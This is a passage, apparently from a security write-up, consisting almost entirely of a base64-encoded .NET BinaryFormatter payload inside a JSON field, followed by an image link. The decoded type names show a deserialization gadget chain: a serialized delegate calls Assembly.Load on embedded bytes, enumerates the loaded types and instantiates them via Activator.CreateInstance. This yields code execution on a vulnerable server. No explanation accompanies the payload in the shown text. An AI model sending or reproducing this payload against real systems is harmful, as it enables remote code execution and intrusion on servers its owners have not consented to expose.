ZXV0cmFsLCBQdWJsaWNLZXlUb2tlbj1iNzdhNWM1NjE5MzRlMDg5XV0sIG1zY29ybGliLCBWZXJzaW9uPTQuMC4wLjAsIEN1bHR1cmU9bmV1dHJhbCwgUHVibGljS2V5VG9rZW49Yjc3YTVjNTYxOTM0ZTA4OV0sW1N5c3RlbS5Db2xsZWN0aW9ucy5HZW5lcmljLklFbnVtZXJhdG9yYDFbW1N5c3RlbS5UeXBlLCBtc2NvcmxpYiwgVmVyc2lvbj00LjAuMC4wLCBDdWx0dXJlPW5ldXRyYWwsIFB1YmxpY0tleVRva2VuPWI3N2E1YzU2MTkzNGUwODldXSwgbXNjb3JsaWIsIFZlcnNpb249NC4wLjAuMCwgQ3VsdHVyZT1uZXV0cmFsLCBQdWJsaWNLZXlUb2tlbj1iNzdhNWM1NjE5MzRlMDg5XV0EAAAACSIAAAAQFAAAAAcAAAAJBQAAAAoJLAAAAAoICAAAAAAKCAgBAAAAARUAAAAPAAAABi0AAADmAlN5c3RlbS5MaW5xLkVudW1lcmFibGUrV2hlcmVTZWxlY3RFbnVtZXJhYmxlSXRlcmF0b3JgMltbU3lzdGVtLkNvbGxlY3Rpb25zLkdlbmVyaWMuSUVudW1lcmF0b3JgMVtbU3lzdGVtLlR5cGUsIG1zY29ybGliLCBWZXJzaW9uPTQuMC4wLjAsIEN1bHR1cmU9bmV1dHJhbCwgUHVibGljS2V5VG9rZW49Yjc3YTVjNTYxOTM0ZTA4OV1dLCBtc2NvcmxpYiwgVmVyc2lvbj00LjAuMC4wLCBDdWx0dXJlPW5ldXRyYWwsIFB1YmxpY0tleVRva2VuPWI3N2E1YzU2MTkzNGUwODldLFtTeXN0ZW0uVHlwZSwgbXNjb3JsaWIsIFZlcnNpb249NC4wLjAuMCwgQ3VsdHVyZT1uZXV0cmFsLCBQdWJsaWNLZXlUb2tlbj1iNzdhNWM1NjE5MzRlMDg5XV0EAAAACSIAAAAQFgAAAAcAAAAJBgAAAAkwAAAACTEAAAAKCAgAAAAACggIAQAAAAEXAAAADwAAAAYyAAAA7wFTeXN0ZW0uTGlucS5FbnVtZXJhYmxlK1doZXJlU2VsZWN0RW51bWVyYWJsZUl0ZXJhdG9yYDJbW1N5c3RlbS5UeXBlLCBtc2NvcmxpYiwgVmVyc2lvbj00LjAuMC4wLCBDdWx0dXJlPW5ldXRyYWwsIFB1YmxpY0tleVRva2VuPWI3N2E1YzU2MTkzNGUwODldLFtTeXN0ZW0uT2JqZWN0LCBtc2NvcmxpYiwgVmVyc2lvbj00LjAuMC4wLCBDdWx0dXJlPW5ldXRyYWwsIFB1YmxpY0tleVRva2VuPWI3N2E1YzU2MTkzNGUwODldXQQAAAAJIgAAABAYAAAABwAAAAkHAAAACgk1AAAACggIAAAAAAoICAEAAAABGQAAAA8AAAAGNgAAAClTeXN0ZW0uV2ViLlVJLldlYkNvbnRyb2xzLlBhZ2VkRGF0YVNvdXJjZQQAAAAGNwAAAE1TeXN0ZW0uV2ViLCBWZXJzaW9uPTQuMC4wLjAsIEN1bHR1cmU9bmV1dHJhbCwgUHVibGljS2V5VG9rZW49YjAzZjVmN2YxMWQ1MGEzYRAaAAAABwAAAAkIAAAACAgAAAAACAgKAAAACAEACAEACAEACAgAAAAAARsAAAAPAAAABjkAAAApU3lzdGVtLkNvbXBvbmVudE1vZGVsLkRlc2lnbi5EZXNpZ25lclZlcmIEAAAABjoAAABJU3lzdGVtLCBWZXJzaW9uPTQuMC4wLjAsIEN1bHR1cmU9bmV1dHJhbCwgUHVibGljS2V5VG9rZW49Yjc3YTVjNTYxOTM0ZTA4ORAcAAAABQAAAA0CCTsAAAAICAMAAAAJCwAAAAEdAAAADwAAAAY9AAAANFN5c3RlbS5SdW50aW1lLlJlbW90aW5nLkNoYW5uZWxzLkFnZ3JlZ2F0ZURpY3Rpb25hcnkEAAAABj4AAABLbXNjb3JsaWIsIFZlcnNpb249NC4wLjAuMCwgQ3VsdHVyZT1uZXV0cmFsLCBQdWJsaWNLZXlUb2tlbj1iNzdhNWM1NjE5MzRlMDg5EB4AAAABAAAACQkAAAAQHwAAAAIAAAAJCgAAAAkKAAAAECAAAAACAAAABkEAAAAACUEAAAAEJAAAACJTeXN0ZW0uRGVsZWdhdGVTZXJpYWxpemF0aW9uSG9sZGVyAgAAAAhEZWxlZ2F0ZQdtZXRob2QwAwMwU3lzdGVtLkRlbGVnYXRlU2VyaWFsaXphdGlvbkhvbGRlcitEZWxlZ2F0ZUVudHJ5L1N5c3RlbS5SZWZsZWN0aW9uLk1lbWJlckluZm9TZXJpYWxpemF0aW9uSG9sZGVyCUIAAAAJQwAAAAEoAAAAJAAAAAlEAAAACUUAAAABLAAAACQAAAAJRgAAAAlHAAAAATAAAAAkAAAACUgAAAAJSQAAAAExAAAAJAAAAAlKAAAACUsAAAABNQAAACQAAAAJTAAAAAlNAAAAATsAAAAEAAAACU4AAAAJTwAAAARCAAAAMFN5c3RlbS5EZWxlZ2F0ZVNlcmlhbGl6YXRpb25Ib2xkZXIrRGVsZWdhdGVFbnRyeQcAAAAEdHlwZQhhc3NlbWJseQZ0YXJnZXQSdGFyZ2V0VHlwZUFzc2VtYmx5DnRhcmdldFR5cGVOYW1lCm1ldGhvZE5hbWUNZGVsZWdhdGVFbnRyeQEBAgEBAQMwU3lzdGVtLkRlbGVnYXRlU2VyaWFsaXphdGlvbkhvbGRlcitEZWxlZ2F0ZUVudHJ5BlAAAADVAVN5c3RlbS5GdW5jYDJbW1N5c3RlbS5CeXRlW10sIG1zY29ybGliLCBWZXJzaW9uPTQuMC4wLjAsIEN1bHR1cmU9bmV1dHJhbCwgUHVibGljS2V5VG9rZW49Yjc3YTVjNTYxOTM0ZTA4OV0sW1N5c3RlbS5SZWZsZWN0aW9uLkFzc2VtYmx5LCBtc2NvcmxpYiwgVmVyc2lvbj00LjAuMC4wLCBDdWx0dXJlPW5ldXRyYWwsIFB1YmxpY0tleVRva2VuPWI3N2E1YzU2MTkzNGUwODldXQk+AAAACgk+AAAABlIAAAAaU3lzdGVtLlJlZmxlY3Rpb24uQXNzZW1ibHkGUwAAAARMb2FkCgRDAAAAL1N5c3RlbS5SZWZsZWN0aW9uLk1lbWJlckluZm9TZXJpYWxpemF0aW9uSG9sZGVyBwAAAAROYW1lDEFzc2VtYmx5TmFtZQlDbGFzc05hbWUJU2lnbmF0dXJlClNpZ25hdHVyZTIKTWVtYmVyVHlwZRBHZW5lcmljQXJndW1lbnRzAQEBAQEAAwgNU3lzdGVtLlR5cGVbXQlTAAAACT4AAAAJUgAAAAZWAAAAJ1N5c3RlbS5SZWZsZWN0aW9uLkFzc2VtYmx5IExvYWQoQnl0ZVtdKQZXAAAALlN5c3RlbS5SZWZsZWN0aW9uLkFzc2VtYmx5IExvYWQoU3lzdGVtLkJ5dGVbXSkIAAAACgFEAAAAQgAAAAZYAAAAzAJTeXN0ZW0uRnVuY2AyW1tTeXN0ZW0uUmVmbGVjdGlvbi5Bc3NlbWJseSwgbXNjb3JsaWIsIFZlcnNpb249NC4wLjAuMCwgQ3VsdHVyZT1uZXV0cmFsLCBQdWJsaWNLZXlUb2tlbj1iNzdhNWM1NjE5MzRlMDg5XSxbU3lzdGVtLkNvbGxlY3Rpb25zLkdlbmVyaWMuSUVudW1lcmFibGVgMVtbU3lzdGVtLlR5cGUsIG1zY29ybGliLCBWZXJzaW9uPTQuMC4wLjAsIEN1bHR1cmU9bmV1dHJhbCwgUHVibGljS2V5VG9rZW49Yjc3YTVjNTYxOTM0ZTA4OV1dLCBtc2NvcmxpYiwgVmVyc2lvbj00LjAuMC4wLCBDdWx0dXJlPW5ldXRyYWwsIFB1YmxpY0tleVRva2VuPWI3N2E1YzU2MTkzNGUwODldXQk+AAAACgk+AAAACVIAAAAGWwAAAAhHZXRUeXBlcwoBRQAAAEMAAAAJWwAAAAk+AAAACVIAAAAGXgAAABhTeXN0ZW0uVHlwZVtdIEdldFR5cGVzKCkGXwAAABhTeXN0ZW0uVHlwZVtdIEdldFR5cGVzKCkIAAAACgFGAAAAQgAAAAZgAAAAtgNTeXN0ZW0uRnVuY2AyW1tTeXN0ZW0uQ29sbGVjdGlvbnMuR2VuZXJpYy5JRW51bWVyYWJsZWAxW1tTeXN0ZW0uVHlwZSwgbXNjb3JsaWIsIFZlcnNpb249NC4wLjAuMCwgQ3VsdHVyZT1uZXV0cmFsLCBQdWJsaWNLZXlUb2tlbj1iNzdhNWM1NjE5MzRlMDg5XV0sIG1zY29ybGliLCBWZXJzaW9uPTQuMC4wLjAsIEN1bHR1cmU9bmV1dHJhbCwgUHVibGljS2V5VG9rZW49Yjc3YTVjNTYxOTM0ZTA4OV0sW1N5c3RlbS5Db2xsZWN0aW9ucy5HZW5lcmljLklFbnVtZXJhdG9yYDFbW1N5c3RlbS5UeXBlLCBtc2NvcmxpYiwgVmVyc2lvbj00LjAuMC4wLCBDdWx0dXJlPW5ldXRyYWwsIFB1YmxpY0tleVRva2VuPWI3N2E1YzU2MTkzNGUwODldXSwgbXNjb3JsaWIsIFZlcnNpb249NC4wLjAuMCwgQ3VsdHVyZT1uZXV0cmFsLCBQdWJsaWNLZXlUb2tlbj1iNzdhNWM1NjE5MzRlMDg5XV0JPgAAAAoJPgAAAAZiAAAAhAFTeXN0ZW0uQ29sbGVjdGlvbnMuR2VuZXJpYy5JRW51bWVyYWJsZWAxW1tTeXN0ZW0uVHlwZSwgbXNjb3JsaWIsIFZlcnNpb249NC4wLjAuMCwgQ3VsdHVyZT1uZXV0cmFsLCBQdWJsaWNLZXlUb2tlbj1iNzdhNWM1NjE5MzRlMDg5XV0GYwAAAA1HZXRFbnVtZXJhdG9yCgFHAAAAQwAAAAljAAAACT4AAAAJYgAAAAZmAAAARVN5c3RlbS5Db2xsZWN0aW9ucy5HZW5lcmljLklFbnVtZXJhdG9yYDFbU3lzdGVtLlR5cGVdIEdldEVudW1lcmF0b3IoKQZnAAAAlAFTeXN0ZW0uQ29sbGVjdGlvbnMuR2VuZXJpYy5JRW51bWVyYXRvcmAxW1tTeXN0ZW0uVHlwZSwgbXNjb3JsaWIsIFZlcnNpb249NC4wLjAuMCwgQ3VsdHVyZT1uZXV0cmFsLCBQdWJsaWNLZXlUb2tlbj1iNzdhNWM1NjE5MzRlMDg5XV0gR2V0RW51bWVyYXRvcigpCAAAAAoBSAAAAEIAAAAGaAAAAMACU3lzdGVtLkZ1bmNgMltbU3lzdGVtLkNvbGxlY3Rpb25zLkdlbmVyaWMuSUVudW1lcmF0b3JgMVtbU3lzdGVtLlR5cGUsIG1zY29ybGliLCBWZXJzaW9uPTQuMC4wLjAsIEN1bHR1cmU9bmV1dHJhbCwgUHVibGljS2V5VG9rZW49Yjc3YTVjNTYxOTM0ZTA4OV1dLCBtc2NvcmxpYiwgVmVyc2lvbj00LjAuMC4wLCBDdWx0dXJlPW5ldXRyYWwsIFB1YmxpY0tleVRva2VuPWI3N2E1YzU2MTkzNGUwODldLFtTeXN0ZW0uQm9vbGVhbiwgbXNjb3JsaWIsIFZlcnNpb249NC4wLjAuMCwgQ3VsdHVyZT1uZXV0cmFsLCBQdWJsaWNLZXlUb2tlbj1iNzdhNWM1NjE5MzRlMDg5XV0JPgAAAAoJPgAAAAZqAAAAHlN5c3RlbS5Db2xsZWN0aW9ucy5JRW51bWVyYXRvcgZrAAAACE1vdmVOZXh0CgFJAAAAQwAAAAlrAAAACT4AAAAJagAAAAZuAAAAEkJvb2xlYW4gTW92ZU5leHQoKQZvAAAAGVN5c3RlbS5Cb29sZWFuIE1vdmVOZXh0KCkIAAAACgFKAAAAQgAAAAZwAAAAvQJTeXN0ZW0uRnVuY2AyW1tTeXN0ZW0uQ29sbGVjdGlvbnMuR2VuZXJpYy5JRW51bWVyYXRvcmAxW1tTeXN0ZW0uVHlwZSwgbXNjb3JsaWIsIFZlcnNpb249NC4wLjAuMCwgQ3VsdHVyZT1uZXV0cmFsLCBQdWJsaWNLZXlUb2tlbj1iNzdhNWM1NjE5MzRlMDg5XV0sIG1zY29ybGliLCBWZXJzaW9uPTQuMC4wLjAsIEN1bHR1cmU9bmV1dHJhbCwgUHVibGljS2V5VG9rZW49Yjc3YTVjNTYxOTM0ZTA4OV0sW1N5c3RlbS5UeXBlLCBtc2NvcmxpYiwgVmVyc2lvbj00LjAuMC4wLCBDdWx0dXJlPW5ldXRyYWwsIFB1YmxpY0tleVRva2VuPWI3N2E1YzU2MTkzNGUwODldXQk+AAAACgk+AAAABnIAAACEAVN5c3RlbS5Db2xsZWN0aW9ucy5HZW5lcmljLklFbnVtZXJhdG9yYDFbW1N5c3RlbS5UeXBlLCBtc2NvcmxpYiwgVmVyc2lvbj00LjAuMC4wLCBDdWx0dXJlPW5ldXRyYWwsIFB1YmxpY0tleVRva2VuPWI3N2E1YzU2MTkzNGUwODldXQZzAAAAC2dldF9DdXJyZW50CgFLAAAAQwAAAAlzAAAACT4AAAAJcgAAAAZ2AAAAGVN5c3RlbS5UeXBlIGdldF9DdXJyZW50KCkGdwAAABlTeXN0ZW0uVHlwZSBnZXRfQ3VycmVudCgpCAAAAAoBTAAAAEIAAAAGeAAAAMYBU3lzdGVtLkZ1bmNgMltbU3lzdGVtLlR5cGUsIG1zY29ybGliLCBWZXJzaW9uPTQuMC4wLjAsIEN1bHR1cmU9bmV1dHJhbCwgUHVibGljS2V5VG9rZW49Yjc3YTVjNTYxOTM0ZTA4OV0sW1N5c3RlbS5PYmplY3QsIG1zY29ybGliLCBWZXJzaW9uPTQuMC4wLjAsIEN1bHR1cmU9bmV1dHJhbCwgUHVibGljS2V5VG9rZW49Yjc3YTVjNTYxOTM0ZTA4OV1dCT4AAAAKCT4AAAAGegAAABBTeXN0ZW0uQWN0aXZhdG9yBnsAAAAOQ3JlYXRlSW5zdGFuY2UKAU0AAABDAAAACXsAAAAJPgAAAAl6AAAABn4AAAApU3lzdGVtLk9iamVjdCBDcmVhdGVJbnN0YW5jZShTeXN0ZW0uVHlwZSkGfwAAAClTeXN0ZW0uT2JqZWN0IENyZWF0ZUluc3RhbmNlKFN5c3RlbS5UeXBlKQgAAAAKAU4AAAAPAAAABoAAAAAmU3lzdGVtLkNvbXBvbmVudE1vZGVsLkRlc2lnbi5Db21tYW5kSUQEAAAACToAAAAQTwAAAAIAAAAJggAAAAgIACAAAASCAAAAC1N5c3RlbS5HdWlkCwAAAAJfYQJfYgJfYwJfZAJfZQJfZgJfZwJfaAJfaQJfagJfawAAAAAAAAAAAAAACAcHAgICAgICAgITE9J07irREYv7AKDJDyb3Cws=","format": "3"}
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231218201440-0544134e-9d9f-1.png)
